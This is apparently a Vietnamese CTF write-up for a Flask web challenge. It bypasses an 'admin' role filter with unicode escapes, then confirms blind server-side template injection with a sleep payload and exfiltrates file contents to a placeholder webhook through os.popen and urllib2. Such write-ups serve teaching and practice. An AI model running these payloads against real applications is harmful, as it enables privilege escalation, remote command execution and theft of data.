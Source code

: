 # Đề bài:

![Screenshot 2024-11-08 171245](https://github.com/user-attachments/assets/3eda7452-5bbe-4af0-9e87-d3fab49c075d)

# Walkthrough:
- Do writeup này được viết khi giải đã kết thúc nên chúng ta sẽ làm trên localhost
### Step 1: Lấy role admin:
- Chúng ta sẽ phải vào register để đăng kí tài khoản trước:
  
![Screenshot 2024-11-08 171944](https://github.com/user-attachments/assets/a4684073-9cf3-4201-a183-249d70733f9f)

- Tiến hành đăng kí tài khoản xong check proxy ta có:

![Screenshot 2024-11-08 173005](https://github.com/user-attachments/assets/f6b198f3-125e-4679-8c13-7a7b9ba32331)

- Vậy nên ta chỉ cần đổi role thành admin là có quyền admin, tuy nhiên đoạn code này đã filter "admin" lại, vậy thì chúng ta sẽ phải mã hóa chữ admin để bypass
- Ở đây ta xài dạng unicode của chữ admin là: \u0061\u0064\u006d\u0069\u006e
![Screenshot 2024-11-08 173251](https://github.com/user-attachments/assets/ca9c264b-73ae-4edc-83e3-a665727374eb)

- Vậy là ta đã có được role admin
### Step 2: Blind SSTI:
- Sau khi đăng nhập thành công, ta vào render và sửa 1 số phần đề phù hợp với 1 request POST hợp lệ(Đôi http method, thêm content type, thêm value):
![Screenshot 2024-11-08 173716](https://github.com/user-attachments/assets/9d545ee4-538d-4fc8-b692-d6f57b7a8b9b)

```
    data = request.get_json()
    template = data.get("template")
    rendered_template = render_template_string(template)
```
- Đây chắc chắn là vuln ssti và khi gửi thành công, server trả vể là done => blind ssti
- Để kiếm chứng hãy ốp payload: ```{{ cycler.__init__.__globals__.os.popen('sleep 10').read() }}``` vô và kiểm chứng
![Screenshot 2024-11-08 174110](https://github.com/user-attachments/assets/bcc04e4c-74f7-45c9-ae58-450c4398f192)
- Thời gian server trả kết quả là 10 229 milis, tức là hơn 10s 1 xíu => Confirm là inject
- Cách làm là ta sẽ tìm cách chuyển kết quả của câu lệnh sang trang webhook
- Payload:
  ```
  url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('url_webhook_here/?flag=' + url_for.__globals__['os'].popen('cat * | grep \"ISIT\"').read())
  ```
- Flag sẽ được in ra ở respone
